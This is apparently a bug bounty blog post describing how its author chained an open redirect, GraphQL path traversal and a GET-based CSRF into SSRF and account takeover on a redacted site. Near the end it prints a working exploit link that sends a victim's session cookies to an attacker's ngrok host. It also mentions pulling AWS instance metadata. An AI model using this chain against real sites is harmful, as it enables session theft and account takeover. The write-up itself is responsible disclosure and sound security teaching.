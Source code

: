 ```yaml
---
layout: post
title: Watch your requests!
subtitle: Open redirection to account takeover
tags: [ssrf,bugbounty,ato,graphql]
---
```


Recently, while testing a web application, I discovered multiple vulnerabilities that on chaining together could have allowed anyone to take over the Victim account. The affected company name is interchanged with "target" for the sake of confidentiality. The blog would detail how these vulnerabilities were discovered, chained, and exploited.

# From “../” to open redirect:

After some initial testing and fuzzing on `https://target.com`, I soon found an open redirect issue. If we appended two */* at the beginning of the request `GET /api/..` we would get the following response.

~~~HTML
HTTP 1.1 301

....
Location: //api/..
....
~~~

This would redirect us to host- `'api'` with path `/..`

After some trial and error, I came up with the following exploit - https://target.com///google.com//, which would redirect the victim to google.com!

![open redirect-1](/assets/img/open-redir-to-ato/Open-redirect-2.PNG){: .mx-auto.d-block :}

Open redirections are usually low severity issues. I decided to dig deeper into the functionality of the website to chain this with any other vulnerability I might find.

# Path traversal in the wild:

While using the app as a user, with burp running in the background, I noticed that website made several requests to a GraphQL API with different queries. GraphQL is an API query language that requires only one endpoint to query and modify data. Several companies use GraphQL as an alternative to REST APIs. You may read more about GraphQL [here](https://graphql.org/)

I began analyzing each GraphQL request one by one to check any unusual behavior. A mutation query `GetAuthorizedApps` grabbed my attention. This query was used to test the connection of any third-party apps which were connected to the account using OAuth.

![graphql-1](/assets/img/open-redir-to-ato/Graphql-1.PNG){: .mx-auto.d-block :}

The functionality of the query itself wasn't much of an interest. What actually caught my eye was the `id` variable that was sent as a string instead of an Integer. My first assumption was that the value of this variable might be used to make a server-side request to an internal API for example - `http://localhost:8080/api/1/:ID`. I quickly appended a single quote *‘* in hope that the server to throw an error. And the response -

![graphql-2](/assets/img/open-redir-to-ato/Graphql-2.PNG){: .mx-auto.d-block :}


I was right! The server was indeed making requests on behalf of the user, not to any internal host, but the API endpoint available on the same web app. Now I checked if it was possible to use ‘../’ to traverse the endpoint path to the root of the website. Yes, It was possible. 

![graphql-3](/assets/img/open-redir-to-ato/Graphql-3.PNG){: .mx-auto.d-block :}

The root cause of this issue seems to be something in the URL resolving libraries that figures out the traversal before making the request.

# Path traversal + Open redirect = SSRF!

Let us first understand what actually happens under the hood-

The website uses REST endpoints to fetch, modify, and delete user data as well as a GraphQL endpoint, which acts as a proxy for the REST API. The Graph queries would make server-side requests, on behalf of the user, to various REST endpoints to grab and modify the data. For example the GraphQL query – 

~~~
{“query”:”query GetUser($id: ID!){\n GetUser(id: $id)\n}}”,”variables”:{“ID”:”12345”}}
~~~
would make an internal GET request to `https://target.com/api/user/12345` on behalf of the user.

So far, I had discovered an open redirect and a path traversal. It was now easy to perform a Server Side Request Forgery attack by chaining these two issues! I spun up a ngrok instance, an alternative to burp collaborator, for receiving the incoming request to confirm the issue. You’d have probably guessed by now how the final exploit chain looked like. Here’s mine –

![SSRF-1](/assets/img/open-redir-to-ato/SSRF-1.PNG){: .mx-auto.d-block :}

Since we already have an open redirection and a path traversal, the first 4 '../' would traverse the path up by 4 directories and the ///XXXXXXXX.ngrok.io// would cause a redirection to our server confirming the SSRF.

Here's the Request that I received was – 

![SSRF-2](/assets/img/open-redir-to-ato/ssrf-2.PNG){: .mx-auto.d-block :}


# Falling on the face

Awesome now we have an SSRF! The next obvious step was to fetch the cloud metadata of the AWS ec2 instance. I wrote a python script to create an Http Server and redirect every inbound request to http://169.254.169.254. I bound this script with the ngrok instance. This was important because the server only made requests to `https://` instead of `http://`, and the metadata is only accessible on port 80. Here’s the response.

![ssrf-exp-1](/assets/img/open-redir-to-ato/SSRF-exp-1.PNG){: .mx-auto.d-block :}

Bummer!! :(  I was unable to read the response! But why? Turns out that the server is expecting a JSON response with the objects success and key, instead of plain or HTML for all the 200 OK requests and threw an error if the status code wasn't 2XX.This error would return the whole response of the proxy request.

I could still map the internal network by making requests to the internal host but this would drop the severity of the issue to medium as only errors were readable. After some more digging, I found a way to escalate it further to a much higher severity issue.

# Gotcha!

Remember the request we got on our ngrok after exploiting the SSRF? Let's take a look at it once again.

![ssrf-2-cookie](/assets/img/open-redir-to-ato/ssrf-2-cookie.PNG){: .mx-auto.d-block :}

Notice the cookie header which that sent along with the request. I soon realized that these were my session cookies! This was how the server was authenticating requests made on behalf of the user. However, this discovery was useless unless we could somehow force our victims to make this request and receive their cookies on our server.

My initial idea was to find an XSS, bypass the Same Origin Policy, make the malicious GraphQL request on behalf of the victim, and then exfiltrate the cookies.


After spending a day looking for an XSS vulnerability, I didn't find any and gave up. I reported this as a Blind SSRF with the ability to read a partial response and began testing other parts of the app.

I noticed another query "ZtsplXXXXXXX" whose behavior was very similar to `GetAuthorized` query because this query used an ID variable to make internal requests too! 

![ssrf-exp-2](/assets/img/open-redir-to-ato/SSRF-exp-2.png)

However, there is one major difference between the two. `GetAuthorized` was a _mutation_ query while `ZtsplXXXXXXX` was a normal query. As soon as I saw this, I knew I've got a complete account takeover.

The GraphQL endpoint was running on [Apollo](https://www.apollographql.com) server. This was exciting because according to its [docs](https://www.apollographql.com/docs/apollo-server/v1/requests/), the Apollo server also accepts `GET` requests! 

An example query in GET request would look like:-

~~~
GET /graphql?query=query aTest($arg1: String!) {test(who: $arg1) }&operationName=aTest&variables={"arg1":"me"}
~~~

But there's a limitation.`mutation` queries cannot be executed via *GET* requests, only normal queries are allowed. We can use this "feature" to our advantage by using the query "ZtSpXXXXXXXXX" as a CSRF for our chain!


# The "Hack"

So far we got 
-	An open redirect
-	A Path traversal
-	A CSRF

Let's chain them together for our final exploit to grab the victim's cookie header!

~~~HTML
https://target.com/api/graphql/v2?query=query ZtSpXXXXXXXXX($id: ID!) {  XXXXXXXX(id: $id) {    title    steps    headService {      id      name      __typename    }    tailService {      id      name      __typename    }    services {      id      name      __typename    }    __typename  }}&variables={"id":"1234/../../../../../..///xxxxxxx.ngrok.io//"}
~~~

As soon as the victim clicks the above link, their session cookies would be sent to our ngrok server, which we can later use to access their account!

![ato-exp-1](/assets/img/open-redir-to-ato/ATO-exp-1.PNG)

These issues were responsibly reported to the affected company. The open redirect was fix by dissallowing root redirects. The server also now denies to send the cookies to non whitelisted domains for the requests made server side.

# Timeline

- Aug 29, 2020 - Initial discovery of open redirect and path traversal
- Aug 30, 2020 - Vulnerability escalated and updated the report as account takeover issue
- Sep 18, 2020 - Fixes pushed by the team and bounty awarded as critical

**Shoutout to [@y_sodha](https://twitter.com/y_sodha) for proofreading!**

<h5>Liked the article, have a question about the post or just wanna chat? Feel free to reach out to me on <a href ="https://twitter.com/surajdisoja">twitter</a> or send me an email at <a href="mailto:hello@surajdisoja.me">hello@surajdisoja.me</a></h5>
